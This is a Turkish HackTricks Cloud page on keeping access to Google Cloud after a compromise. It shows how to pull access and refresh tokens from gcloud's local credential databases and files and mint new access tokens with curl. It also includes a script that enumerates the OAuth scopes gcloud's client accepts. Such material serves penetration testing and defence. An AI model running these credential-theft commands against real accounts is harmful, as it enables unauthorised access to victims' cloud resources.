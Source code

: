 # GCP - Hizmet Dışı Kalıcılık

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

- Şirketinizin **HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
- **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına katkıda bulunun.

</details>

Bir şekilde GCP kimlik bilgilerini veya GCP ortamında çalışan bir makineyi ele geçirdikten sonra bu kullanışlı tekniklerden yararlanabilirsiniz.

## Token Kaçırma

### Doğrulanmış Kullanıcı Tokenları

Bir kullanıcının **mevcut token**'ını almak için şunu çalıştırabilirsiniz:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Bu sayfada bu belirteci **gcloud kullanarak doğrudan nasıl kullanacağınızı** kontrol edin:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Yeni bir erişim belirteci **oluşturmak için ayrıntıları almak** için çalıştırın:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

Ayrıca, **`$HOME/.config/gcloud/application_default_credentials.json`** ve **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** dosyalarında yenileme token'ları bulmak mümkündür.

Yenilenmiş bir erişim token'ı almak için **yenileme token'ı**, istemci kimliği ve istemci sırrını kullanarak şunu çalıştırın:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Yenileme belgelerinin geçerliliği **Yönetici** > **Güvenlik** > **Google Cloud oturum kontrolü** bölümünde yönetilebilir ve varsayılan olarak 16 saat olarak ayarlanmıştır, ancak hiçbir zaman süresiz olarak ayarlanabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Kimlik doğrulama akışı

`gcloud auth login` gibi bir şey kullandığınızda kimlik doğrulama akışı tarayıcıda bir iletişim kutusu açacak ve tüm kapsamları kabul ettikten sonra tarayıcı, aracın açtığı http bağlantı noktasına şu gibi bir istek gönderecektir:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Sonra, gcloud, durumu ve kodu bazı sabit `client_id` (`32555940559.apps.googleusercontent.com`) ve **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) ile kullanarak **son yenileme belirteci verilerini** alacaktır.

{% hint style="danger" %}
Localhost ile iletişim HTTP üzerinden gerçekleştiği için verileri ondersiz almak mümkündür, ancak bu veri yalnızca 1 kez geçerlidir, bu yüzden bu işe yaramaz, yenileme belirtecini dosyadan okumak daha kolaydır.
{% endhint %}

### OAuth Kapsamları

Tüm Google kapsamlarını [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) adresinde bulabilir veya aşağıdaki komutu çalıştırarak alabilirsiniz:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

**`gcloud`**'un kimlik doğrulamak için kullandığı uygulamanın hangi kapsamları destekleyebileceğini bu betikle görmek mümkündür:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Uygulamanın desteklediği kapsamların kontrol edildiğinde şunlar tespit edildi:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
Bu uygulamanın **`drive`** kapsamını desteklediğini görmek ilginç, bu da bir saldırganın bir kullanıcıyı bu kapsamla bir token oluşturmaya zorladığında GCP'den Workspace'e yükselmesine izin verebilir.

Bir hizmet hesabının **özel anahtar dosyasını ele geçirirseniz**, genellikle istediğiniz sürece buna **erişebileceksiniz**. Ancak, bir hizmet hesabının **OAuth token'ını çalarsanız**, bu daha da ilginç olabilir, çünkü varsayılan olarak bu tokenlar genellikle sadece bir saat için kullanışlı olsa da, **kurban özel API anahtarını sildiğinde, OAuth tokenı hala geçerli olacaktır**.

Tabii ki, GCP ortamında çalışan bir makinede olduğunuz sürece, o makineye bağlı hizmet hesabına **metadata uç noktasına başvurarak erişebileceksiniz** (bu uç noktada erişebileceğiniz OAuth tokenlarının genellikle kapsamlarla sınırlı olduğunu unutmayın).

Bu teknikler için bazı çözümler [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) adresinde açıklanmıştır.

## Referanslar

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
